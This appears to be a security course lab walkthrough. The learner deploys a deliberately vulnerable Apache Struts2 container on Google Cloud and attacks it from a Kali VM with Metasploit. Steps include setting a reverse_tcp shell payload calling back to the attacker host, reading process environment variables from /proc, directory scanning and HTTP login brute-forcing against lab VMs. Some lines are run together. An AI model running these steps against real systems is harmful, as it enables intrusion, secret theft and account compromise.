

On Google Cloud Platform's Compute Engine, create a new instance in us-west1-b.
Ubuntu for x86/64 as the VM(struts2_external_IP / struts2_internal_IP)gcloud compute instances create struts \
--machine-type e2-micro --zone us-west1-b \
--image-project ubuntu-os-cloud --image-family ubuntu-2004-lts \
--tags=http-serverLog into the VM and install Docker
sudo apt update -y sudo apt install docker.io -y
Run the vulnerable Struts docker container (originally from piesecurity). The vulnerable container puts the website on port 8080. The docker command's -p flag remaps it to port 80 on the host VM.
sudo docker run -p 80:8080 -it wuchangfeng/apache-struts2-cve-2017-5638:latest
Test the instance by visiting http://<struts2_external_IP>/showcase

ssh into your Kali VM on Compute Engine
ssh root@<kali_external_IP> (Use password that you set previously)
msfconsole
msf > search struts2
use commandmsf > use exploit/multi/http/struts2_...
struts2_internal_IP address of the instance.msf exploit(...) > set RHOST <struts2_internal_IP> msf exploit(...) > set RPORT 80
msf exploit(...) > set TARGETURI /showcase
msf exploit(...) > set PAYLOAD linux/x64/shell/reverse_tcp msf exploit(...) > set LHOST <kali_internal_IP> msf exploit(...) > set LPORT 80
msf exploit(...) > show options
msf exploit(...) > exploit
uid of it, and a full process listing of the server.pwd ls id ps auxww
/proccat /proc/<PID>/environ
exit
msf exploit(...) > back msf >
If your WFP1 VM is not running, visit Compute Engine to start it. From the Metasploit console, load the dir_scanner module. Note that the console supports tab completion for your command typing convenience.
msf > use auxiliary/scanner/http/dir_scanner
Show which file is being used for the directory names to use
msf > show options
Set the target to your WFP1 instance
msf auxiliary(dir_scanner) > set RHOSTS <wfp1_internal_IP>
Run the attack
msf auxiliary(dir_scanner) > exploit
msf exploit(...) > back msf >
If your WFP2 VM is not running, visit Compute Engine to start it. Within the Metasploit console, load the http_login brute-force module
msf > use auxiliary/scanner/http/http_login
Set the target to the internal IP address of your WFP2 instance
msf auxiliary(http_login) > set RHOSTS <wfp2_internal_IP>
Set the URI to Authentication Example #1
msf auxiliary(http_login) > set AUTH_URI /authentication/example1/
Then, run the attack
msf auxiliary(http_login) > exploit
msf auxiliary(http_login) > set VERBOSE false
Exit out of the sub-menu and the Metasploit console
Visit the Compute Engine console.
gcloud compute instances stop <List_of_VMs> --zone=us-west1-bgcloud compute instances delete struts --zone=us-west1-b